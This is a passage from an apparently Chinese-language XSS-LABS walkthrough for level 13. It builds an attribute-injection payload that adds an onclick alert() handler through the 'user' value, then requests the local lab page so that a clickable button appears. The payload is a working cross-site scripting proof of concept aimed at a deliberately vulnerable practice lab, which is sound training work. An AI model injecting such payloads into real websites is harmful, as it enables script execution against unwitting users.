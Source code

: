 - 现在开始构造payload。

```shell
# payload
Click me" onclick="alert()" type="button

# 设置user的值为payload
user=Click me" onclick="alert()" type="button
```

![image-20220928225209749](XSS-LABS.assets/image-20220928225209749.png)

- 请求url，得到按钮。

```
http://localhost:1996/level13.php
```

![image-20220928232346287](XSS-LABS.assets/image-20220928232346287.png)

- 点击Click me，拿下。

